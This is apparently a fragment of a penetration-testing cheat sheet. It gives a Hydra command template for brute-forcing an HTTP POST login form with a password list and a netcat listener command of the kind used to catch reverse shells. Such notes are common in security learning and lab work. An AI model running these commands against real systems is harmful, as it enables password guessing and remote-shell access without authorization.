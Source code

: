 ## Hydra
  hydra -l username -P passwordlist.txt -s PORT IP http-post-form 'referurl:postbody^user^&^password:Error message'

## Netcat listener
  nc -nlvp PORT
